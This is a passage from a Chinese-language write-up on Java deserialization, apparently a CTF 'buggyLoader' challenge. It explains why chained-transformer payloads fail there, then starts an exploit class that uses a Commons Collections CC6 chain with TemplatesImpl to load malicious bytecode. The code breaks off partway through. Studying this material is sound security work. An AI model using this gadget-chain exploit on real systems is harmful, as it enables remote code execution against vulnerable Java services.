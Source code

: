 [![](assets/1709112106-686878a9a01aa34058b4423986db3822.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227200156-012257de-d568-1.png)

那么既然是因为这个，所以我们的数组的 payload 就无法使用了，因为在打 CC 的过程当中基本都会带上`ChainedTransformer`​来链式调用，或者在最后的 Sink 的点的时候会用到`TemplatesImpl`​来加载`byte[][]`​字节码，但是这里就都没办法使用了，当然了不使用`ChainedTransformer`​链式调用一个一个手动来触发也是可以的，但是因为存在`RMIConnector`​进行二次反序列化会更加方便，因为我们可以只需要单`InvokerTransformer`​来进行反射调用`connect()`​方法即可，那么写出 EXP

```bash
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class buggyLoader {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static HashMap getObject() throws Exception{
        //cc6的HashMap链
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});
```